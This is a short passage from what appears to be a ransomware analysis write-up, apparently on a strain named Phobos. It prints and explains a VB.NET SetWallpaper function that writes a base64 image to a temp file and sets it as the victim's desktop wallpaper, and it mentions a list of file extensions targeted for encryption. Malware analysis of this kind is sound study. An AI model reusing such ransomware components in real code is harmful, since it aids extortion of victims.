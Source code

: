 List of file extensions that will be affected by the ransomware

### SetWallpaper

```
Public Shared Sub SetWallpaper(base64 As String)
	If base64 <> "" Then
		Try
			Dim text As String = Path.GetTempPath() + Program.RandomString(9) + ".jpg"
			File.WriteAllBytes(text, Convert.FromBase64String(base64))
			Program.SystemParametersInfo(20UI, 0UI, text, 3UI)
		Catch
		End Try
	End If
End Sub
```
This function changes the computer's wallpaper. It takes a base64-encoded image, converts it into a JPEG file, and sets it as the new wallpaper.

![wallpaper](/images/phobos/phobos-08.png)